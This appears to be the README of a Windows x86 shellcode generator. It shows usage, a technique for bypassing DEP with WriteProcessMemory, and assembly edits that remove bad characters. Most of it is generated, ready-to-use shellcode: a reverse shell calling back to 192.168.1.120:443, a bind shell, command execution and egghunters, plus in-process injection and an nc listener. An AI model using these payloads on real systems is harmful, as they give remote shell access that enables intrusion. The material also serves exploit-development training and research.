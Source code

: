 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}]
                             {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate the development of shellcode that does not contain bad characters and does not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

If [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work.

It will not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes, etc., in shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x0a\x0d\x20\x30' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x151 (337)
...
[ ] 60           : pushal
[ ] 31c9         : xor ecx, ecx
[x] 648b7130     : mov esi, dword ptr fs:[ecx + 0x30]
[ ] 8b760c       : mov esi, dword ptr [esi + 0xc]
[ ] 8b761c       : mov esi, dword ptr [esi + 0x1c]
...
[ ] 8b433c       : mov eax, dword ptr [ebx + 0x3c]
[ ] 8b7c0378     : mov edi, dword ptr [ebx + eax + 0x78]
[ ] 01df         : add edi, ebx
[ ] 8b4f18       : mov ecx, dword ptr [edi + 0x18]
[x] 8b4720       : mov eax, dword ptr [edi + 0x20]
[ ] 01d8         : add eax, ebx
[ ] 8945fc       : mov dword ptr [ebp - 4], eax
...
```


## Remove Bad Characters

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x20 and 0x30 can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
find_and_call:
    pushad                          // Save all registers
    xor   ecx, ecx                  // ECX = 0
    inc   ecx                       // * FOR BAD CHAR 0x30 *
    mov   esi,fs:[ecx+0x2F]         // ESI = &(PEB) ([FS:0x30])
    dec   ecx                       // * FOR BAD CHAR 0x30 *
    mov   esi,[esi+0x0C]            // ESI = PEB->Ldr
    mov   esi,[esi+0x1C]            // ESI = PEB->Ldr.InInitOrder
...
find_function:
    mov   eax, [ebx+0x3C]           // Offset to PE Signature
    mov   edi, [ebx+eax+0x78]       // Export Table Directory RVA
    add   edi, ebx                  // Export Table Directory VMA
    mov   ecx, [edi+0x18]           // NumberOfNames
    inc   edi                       // * FOR BAD CHAR 0x20 *
    mov   eax, [edi+0x1F]           // AddressOfNames RVA
    dec   edi                       // * FOR BAD CHAR 0x20 *
    add   eax, ebx                  // AddressOfNames VMA
    mov   [ebp-0x4], eax            // Save AddressOfNames VMA for later
```


## Examples

### Reverse Shell

```
$ python3 win_x86_shellcoder.py -b '\x00' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x151 (337)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x02\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8Ph32.DhWS2_Thhz\xc4v\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x96 \x9e\xcc\xffU\x041\xc0PPP\xb0\x06P,\x05P@Phf ^\x81\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh\x95 ^W\xffU\x04VVV1\xc0\x8dH\rP\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8Phcmd.\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\xc7(\xaa\x0b\xffU\x041\xc9Qj\xffh\xd2U\xa9.\xffU\x04'
```

### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00' bind -p 54321
# shellcode size: 0x162 (354)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x05\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8Ph32.DhWS2_Th\x92\xacm\xcc\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xc8\xcb\xa7;\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\x19\xe9\xd9/\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVhg`\x05\x8b\xffU\x041\xc0PVh\xc9\xc6\xecE\xffU\x041\xc0PPVhOa\x0c\x9a\xffU\x04\x89\xc6VVV1\xc0\x8dH\rP\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8Phcmd.\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\xd9zI\x06\xffU\x041\xc9Qj\xffh\xce\x83\xcbg\xffU\x04'
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00' exec -c 'calc'
# shellcode size: 0xb4 (180)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```

On 192.168.1.120

```
nc -nlvp 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```


